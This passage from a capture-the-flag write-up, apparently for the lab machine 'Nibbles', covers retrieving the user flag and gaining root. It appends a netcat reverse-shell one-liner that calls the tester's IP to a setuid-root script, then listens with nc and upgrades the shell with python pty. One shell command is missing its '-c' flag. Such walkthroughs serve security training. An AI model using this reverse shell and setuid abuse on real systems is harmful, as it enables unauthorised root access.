 ~~~sh
python3 'import pty; pty.spawn("/bin/bash")'
~~~

---

### Getting the flag

Now that we are inside the machine we can go to the user's home folder and there we will find the file containing the flag.

{{< image src="../../../nibbles-machine-img/22.png" alt="post exploit" position="center" style="border-radius: 8px;" >}}

---

### Privilege escalation

Inside the nibbler user's home folder there is a zip file called persona.zip.

We are going to decompress it using the unzip tool (there are others that we can use as 7z or tar to perform the same task).

If we investigate its content we will find a .sh file which listing it with the command ls -l we can see that it has the permission type 4744 (setuid permission) which allows us to run it with the privileges of the root user.

What we must do with this file is first of all to know that we must not change under any circumstances the content of it, that is why we are going to add a line of code to it which will give us another reverse shell but this time as if we were the root user. This line is called oneliner.

Inside this oneliner we must put our ip address (the one in tun0) and the port in which we are going to be listening with netcat.

---

~~~sh
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 8443 >/tmp/f' | tee -a monitor.sh
~~~

---

Before executing the monitor.sh file, let's remember to listen to netcat.

---

~~~sh
nc -lvnp 8443
~~~

---

Then let's run the file and we will get the reverse shell as the root user. We perform the same step as with the other reverse shell to get an enhanced shell.

---

~~~sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

---
